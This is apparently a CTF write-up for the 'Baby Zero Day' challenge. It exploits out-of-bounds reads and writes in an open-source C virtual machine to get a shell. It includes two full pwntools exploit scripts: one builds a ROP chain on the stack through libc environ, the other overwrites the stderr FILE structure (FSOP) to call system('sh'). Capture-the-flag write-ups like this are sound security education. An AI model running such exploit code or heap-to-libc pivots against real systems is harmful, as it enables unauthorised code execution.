

# Baby Zero Day

> My friend found an open source vm implementation. Please show him that not all open source is secure: https://github.com/parrt/simple-virtual-machine-C/

This was one of the most interesting challenges I've encountered this CTF. I will attempt to fully explain my thought processes and the different successes and failures I've achieved in solving this challenge.

## Overview

This challenge features the exploitation of an open-source VM implementation that is slightly tweaked.

The source code of majority of the program is found on the Github repository, while the main function is slightly modified to accomodate the interaction between the player and the VM.

## Environment

I ran and debugged my exploits directly on the Docker for considerable amount of time that I attempted this challenge. 

Hence I feel that it is necessary that I share the changes I made to ease the debugging of the binary between the docker and my host.

I made some modifications to the `Dockerfile` and `docker-compose.yml`.

```diff
Dockerfile

- ENV JAIL_TIME 60
+ ENV JAIL_TIME 1000000 # so that our program don't timeout and die mid-debugging


docker-compose.yml

ports:
    - 31337:5000
+   - 1337:4444  # port forward for our GDBserver
cap_add:
+   - SYS_PTRACE # allow GDBserver to debug our binary remotely
```
The changes should be self-explanatory.

I copied in GDBserver together with all it's compiled libraries into the docker container via `docker cp` to allow for remote debugging.

The container is accessed via the `docker exec -it CONTAINER /bin/sh` command, and is used to relaunch GDBServer everytime a connection is made to the binary on the docker container. _gdbserver 127.0.0.1:1337 --attach \`pidof run\`_.

We also need to copy out the `libc.so.6` and `ld-linux-x86-64.so.2` from `/srv` so that we have the same `libc` as that on the server for later use.

Finally, we can connect our GDB to the GDBserver via `target extended-remote :4444`.

With that, our remote debugging environment is completed, and we can move on to the main part of the exploitation.

## Analyzing the open-source code

If we look at `vm.c` in the github repository, we can find the main chunk of the code.
There are a few functions, but the most interesting one is the `vm_exec` function which executes most of the functionality of the VM.

Notably, there is very little bounds-checking done in this code. The stack, the global variables `globals` and the local variables `locals` are all arrays that are accessed without checking for bounds.

This allows us to easily read and write out of bounds. The question is: where do/can we write to?

If we look at the `vm_init` and `vm_create` functions, we can see that all of these variables are actually `calloc-ed` onto the heap.

```c
    VM *vm = calloc(1, sizeof(VM)); // <-- VM struct allocated on heap
    ...
    vm->code = code;
    vm->code_size = code_size;
    vm->globals = calloc(nglobals, sizeof(int));  // <-- globals allocated on heap
    vm->nglobals = nglobals;

```

This raises the problem of whether there is even anything in the heap feasible for us to read from/write to.

If we look at the heap after the VM memory has been initialized, we see that the heap simply contains the VM struct, the stack and the globals and nothing else.

Even worse, we are unable to freely control any malloc and free which limits our ability to do some heap exploitation.

## Analyzing the patches

Before we move on, let's look at the patches the author made to the `main` function.

```c
int main()
{
  int size;
  char *s;
  __int64 v6;

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  puts("Program size?");
  scanf("%d", &size);
  if ( size <= 4 )
  {
    puts("No");
    exit(1);
  }
  // allocate a chunk in heap to store our code
  code = (char *)malloc(size);
  puts("Program?");
  fgets(code, size, stdin);
  v6 = vm_create(code, n, 16);
  vm_exec(v6, 0, 1);
  vm_free(v6);
  return 0;
}
```

As we can see, we are able to indicate the size of the code that we are planning to write. Let's keep this in mind for now.

## Planning our exploit route

As seen earlier, we are able to read/write out of bounds of our allocated memory. However, we are limited by the constraints of the heap. Without any feasible leak on the heap, is there any way we can exploit this?

The answer is that we can create a pointer to LIBC on our heap! Recall that our code is `malloc-ed` with a size of our choice, and the pointer to this code is saved on the heap as well in the VM struct.

If we `malloc` a size larger than the heap can allocate, the system will allocate us memory by `MMAPing` a new segment of memory. The beauty of this is that MMAP'ed addresses are deterministic -- and a malloced MMAP'ed chunk will be placed in memory adjacent to the our `LIBC`.

This essentially means that our code will be allocated at a fix offset from our LIBC.

With this, we can easily retrieve the LIBC address. Moving on, we can use this LIBC address to overwrite to our GLOBALS pointer **which is also on the heap in the VM struct**. This will allow us to gain a read/write primitive on the LIBC via our OOB read/write on our GLOBALS array.

## Moving on from the LIBC

At this point in time, with a read/write primitive on libc memory, I have 2 ways of moving ahead.

1. Overwrite STDERR file structure to call `system("/bin/sh")` via FSOP
2. Leak stack address via `__libc_environ` and pivot to write ROP chain on the stack.

Although method 1 might have been easier to accomplish, I chose to start with method 2 as I was simply lazy and it seemed to require less brain **(this is where it all went downhill)**

_a glance of what is to come_



## From Heap to LIBC to Stack and ~profit~ pain

1. Allocate chunk larger than heap (allocated adj. to LIBC)
2. Overwrite globals pointer with LIBC (pivot to LIBC)
3. Leak environ in LIBC (get stack address)
4. Overwrite globals pointer with stack address (pivot to stack)
5. Write ROP chain on stack to win and profit

```python
from pwn import *
import struct

context.terminal = ["tmux", "splitw", "-h"]

opcodes = {
    "NOOP"      : 0,
    "IADD"      : 1,   # int add
    "ISUB"      : 2,
    "IMUL"      : 3,
    "ILT"       : 4,   # int less than
    "IEQ"       : 5,   # int equal
    "BR"        : 6,   # branch
    "BRT"       : 7,   # branch if true
    "BRF"       : 8,   # branch if true
    "ICONST"    : 9,   # push constant integer
    "LOAD"      : 10,  # load from local context
    "GLOAD"     : 11,  # load from global memory
    "STORE"     : 12,  # store in local context
    "GSTORE"    : 13,  # store in global memory
    "PRINT"     : 14,  # print stack top
    "POP"       : 15,  # throw away top of stack
    "CALL"      : 16,  # call function at address with nargs,nlocals
    "RET"       : 17,  # return value from function
    "HALT"      : 18
}

leak = lambda : p32(opcodes["PRINT"])
jmp = lambda : p32(opcodes["BR"])
jmpt = lambda x: p32(opcodes["BRT"]) + p32(x)
push = lambda x: p32(opcodes["ICONST"]) + struct.pack("<i", x)
halt = lambda : p32(opcodes["HALT"])
gload = lambda x: p32(opcodes["GLOAD"]) + struct.pack("<i", x)
gstore = lambda x: p32(opcodes["GSTORE"]) + struct.pack("<i", x)
# load = lambda x: p32(opcodes["LOAD"]) + struct.pack("<i", x)     !! BAD OPCODE !!
store = lambda x: p32(opcodes["STORE"]) + struct.pack("<i", x)
sub = lambda : p32(opcodes["ISUB"])
add = lambda : p32(opcodes["IADD"])
pop = lambda : p32(opcodes["POP"])

if args.REMOTE:
    p = remote("127.0.0.1", 31337)
    # p = remote("pwnb.jonathanw.dev", 4005)
    environ_offset = 1217800240
    x = -20
    pause()
elif args.SOLVE:
    p = remote("pwnb.jonathanw.dev", 4005)
    environ_offset = 1217800240
    x = -20
else:
    p = process("./vuln")
    x = -70
    environ_offset = 0x489336b0


code = b""
# nglobal = code_size = 0x10000000
code += push(0x10000000) + gstore(-2110)
code += push(0x10000000) + gstore(-2106)
# we find the difference in the MSB of the two pointers
code += gload(-2111)
code += gload(-2107)
code += sub()
# save the result to restore MSB later on
code += gstore(-2106)
# next, we offset the LSB and set global pointer to environ
# !! BOUND TO BE BUGGY !!
code += gload(-2112)
code += push(environ_offset) + add()
# store it into global LSB
code += gstore(-2108)
# now we fix our MSB
code += add()
# fix nglobals and move the sp so we don't overwrite crucial stuff
code += push(0x10000000)
# now we set our globals address to stack address
code += gload(1)
code += gload(0)
code += store(-993)
code += store(-992)
# find our gadgets
# rop chain will look like RET + POP_RDI + BINSH + SYSTEM
# BINSH FIRST
code += push(0x0068732f)
code += gstore(x+3)
code += push(0x6e69622f)
code += gstore(x+2)

# POINTER_BINSH
code += gload(x-4) + gload(x-3) + gstore(x-1) + push(-280+8) + add() + gstore(x-2)
# POP_RDI
code += gload(x-6) + gload(x-5) + gstore(x-3) + push(147) + add() + gstore(x-4)
# SYSTEM
code += gload(x+10) + gload(x+11) + gstore(x+1) + push(188941) + add() + gstore(x)
# RET
code += gload(x-6) + gload(x-5) + gstore(x-5) + push(148) + add() + gstore(x-6)
# make small nglobals so we dont crash when reading data
code += pop()
code += push(0x0)
# win :3
code += halt()

p.send(b"100000000000")
# p.send(str(len(code)).encode())
if not args.REMOTE and not args.SOLVE:
    gdb.attach(p, """
               break *vm_exec+175
               continue
               """)
pause()
p.sendline(code)


p.interactive()
```

Ok if you didn't realize yet, this script sucks.

Many hardcoded addresses which are variable depending on the environment I'm running it.

Although this script worked in the docker, it failed to work on remote.

This is the inherent problem of pivoting to the stack, as the stack is non-deterministic over the most minor differences (i.e. kernel).

I was also told that I was allocating more memory than the RAM could handle which caused it to fail.

```python
# i was evidently lazy to find a smaller nicer number that would be MMAP'ed
p.send(b"100000000000")
```


## I forgot LIBC 2.31 still had `__free_hook` so I did FSOP for nothing

Ultimately, a more reliable approach is just directly overwrite things in the LIBC.

A highly feasible target are the file structures in the LIBC.

This exploit method reduces the unreliability due to the variability of the stack and only requires us to have an almost identical libc/ld as that on the remote.

As for how it works, this [article](https://chovid99.github.io/posts/stack-the-flags-ctf-2022/) explains it really well, so I won't go through the entire explaination again.

```python
from pwn import *
import struct

context.terminal = ["tmux", "splitw", "-h"]

opcodes = {
    "NOOP"      : 0,
    "IADD"      : 1,   # int add
    "ISUB"      : 2,
    "IMUL"      : 3,
    "ILT"       : 4,   # int less than
    "IEQ"       : 5,   # int equal
    "BR"        : 6,   # branch
    "BRT"       : 7,   # branch if true
    "BRF"       : 8,   # branch if true
    "ICONST"    : 9,   # push constant integer
    "LOAD"      : 10,  # load from local context
    "GLOAD"     : 11,  # load from global memory
    "STORE"     : 12,  # store in local context
    "GSTORE"    : 13,  # store in global memory
    "PRINT"     : 14,  # print stack top
    "POP"       : 15,  # throw away top of stack
    "CALL"      : 16,  # call function at address with nargs,nlocals
    "RET"       : 17,  # return value from function
    "HALT"      : 18
}

leak = lambda : p32(opcodes["PRINT"])
jmp = lambda : p32(opcodes["BR"])
jmpt = lambda x: p32(opcodes["BRT"]) + p32(x)
push = lambda x: p32(opcodes["ICONST"]) + struct.pack("<i", x)
halt = lambda : p32(opcodes["HALT"])
gload = lambda x: p32(opcodes["GLOAD"]) + struct.pack("<i", x)
gstore = lambda x: p32(opcodes["GSTORE"]) + struct.pack("<i", x)
# load = lambda x: p32(opcodes["LOAD"]) + struct.pack("<i", x)     !! BAD OPCODE !!
store = lambda x: p32(opcodes["STORE"]) + struct.pack("<i", x)
sub = lambda : p32(opcodes["ISUB"])
add = lambda : p32(opcodes["IADD"])
pop = lambda : p32(opcodes["POP"])


if args.REMOTE:
    # p = remote("192.168.132.128", 31337)
    p = remote("127.0.0.1", 31337)
    # p = remote("pwnb.jonathanw.dev", 4005)
    STDERR_OFFSET = 0x23e5b0
    pause()
elif args.SOLVE:
    p = remote("pwnb.jonathanw.dev", 4005)
    STDERR_OFFSET = 0x23e5b0
else:
    p = process("./vuln")
    STDERR_OFFSET = 2360752

# p = remote("pwnb.jonathanw.dev", 4005)

flags = unpack("  " + "sh".ljust(6, "\x00"), 64)  # "  sh"

code = b""
# nglobal = code_size = 0x10000000
code += push(0x10000000) + gstore(-2110)
code += push(0x10000000) + gstore(-2106)
# we find the difference in the MSB of the two pointers
code += gload(-2111) + gload(-2107) + sub()
# save the result to restore MSB later on
code += gstore(-2106)
# next, we offset the LSB and set global pointer to stderr IOFile
code += gload(-2112) + push(STDERR_OFFSET-0x50) + add()
# store it into global LSB
code += gstore(-2108) + add()
# fix nglobals and move the sp so we don't overwrite crucial stuff
code += push(0x10000000)
# FSOP
code += push(flags >> 32) + push(flags & 0xFFFFFFFF) + gstore(20) + gstore(21)
code += push(0) + push(0) + gstore(28) + gstore(29)  # 0x20
code += push(0) + push(1) + gstore(30) + gstore(31)  # 0x28
code += push(0) + push(0) + gstore(68) + gstore(69)  # _mode 0xc0
code += gload(74) + gload(75) + gstore(55) + push(-0x18) + add() + gstore(54)  # _lock 0x88
code += gload(74) + gload(75) + gstore(47) + push(-1667600) + add() + gstore(46) # chain 0x68
code += gload(74) + gload(75) + gstore(59) + push(16672) + add() + gstore(58) # codecvt 0x98
code += gload(74) + gload(75) + gstore(61) + push(16672-0x48) + add() + gstore(60) # wide_data 0xa0
code += gload(74) + gload(75) + gstore(75) + push(-1344) + add() + gstore(74) # vtable 0d8
code += pop() + push(0)
# win :3
code += b"\x00"*8

p.send(str(0x50000).encode())
# p.send(str(len(code)).encode())
if not args.REMOTE and not args.SOLVE:
    gdb.attach(p, """
               break *vm_exec+175
               continue
               """)
pause()
p.sendline(code)


p.interactive()

```

Evidently a more simple script.

Thanks for the challenge! `wxmctf{congrats_you_pwned_FOSS_Now_go_find_some_zero_days!}`

